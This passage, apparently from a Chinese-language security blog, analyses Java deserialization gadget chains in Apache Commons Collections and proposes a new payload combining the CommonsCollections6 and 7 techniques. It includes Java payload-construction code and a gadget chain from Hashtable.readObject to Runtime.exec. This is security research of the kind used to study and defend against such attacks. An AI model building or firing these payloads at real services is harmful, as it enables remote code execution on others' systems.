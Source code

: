 ```java
hashtable.put(lazyMap1, 1);
hashtable.put(lazyMap2, 2);

Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
// Needed to ensure hash collision after previous manipulations
lazyMap2.remove("yy");
```

其中第两次的put会使得会使得LazyMap2中增加了yy这个键值，为了保证反序列化后仍然可以触发后续的利用链，这里需要将lazyMap2的yy键值remove掉。

## 6. 构造新CommonsCollections10

经过对前面1,3,5,6,7的分析，我们其实可以发现很多payload都是“杂交”的成果。那么我们是否能根据前面的分析，构造出一个新的CommonsCollections的payload呢？答案当然是肯定的，接下来讲一下我找到的一个新payload利用。

这个payload为CommonsCollections6和7的结合，同CommonsCollections6类似，这里也用到了`TiedMapEntry`的`hashCode`函数

我们在分析`Hashtable`的`reconstitutionPut`函数时，看下图

![image-20191031183753047](/images/java-deserialized-commonscollections-others-20191031/image-20191031183753047.png)

该函数在第1234行对`key`调用了一次`hashCode`函数，那么很明显，如果key值被代替为构造好的`TiedMapEntry`实例，这里我们就能触发`LazyMap.get`函数，后续的调用链就类似了。

整理一下利用链

```
Hashtable.readObject()
	-> Hashtable.reconstitutionPut
	-> key.hashCode() => TiedMapEntry.hashCode()
	-> TiedMapEntry.getValue
	-> TiedMapEntry.map.get() => LazyMap.get()
	-> factory.transform() => ChainedTransformer.transform()
	-> 前文构造的Runtime.getRuntime().exec()
```
